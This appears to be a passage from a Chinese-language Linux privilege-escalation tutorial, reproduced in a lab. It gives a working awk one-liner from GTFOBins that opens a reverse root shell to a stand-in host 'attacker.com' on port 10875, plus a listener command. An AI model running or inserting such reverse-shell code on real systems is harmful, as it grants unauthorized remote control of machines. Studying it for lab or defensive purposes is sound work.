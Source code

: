 ![](./linux提权_image/16.png)

**1、通过这种方式反弹root shell**

```
参考链接 https://gtfobins.github.io/gtfobins/awk/

攻击方:nv -lvp 10875
RHOST=attacker.com
RPORT=10875
awk -v RHOST=$RHOST -v RPORT=$RPORT 'BEGIN {
    s = "/inet/tcp/0/" RHOST "/" RPORT;
    while (1) {printf "> " |& s; if ((s |& getline c) <= 0) break;
    while (c && (c |& getline) > 0) print $0 |& s; close(c)}}'
```

**复现如下**

```
1.win7为为攻击机
1.26为需要反弹root shell到win7的靶机
```

![](./linux提权_image/20.png)

![](./linux提权_image/21.png)
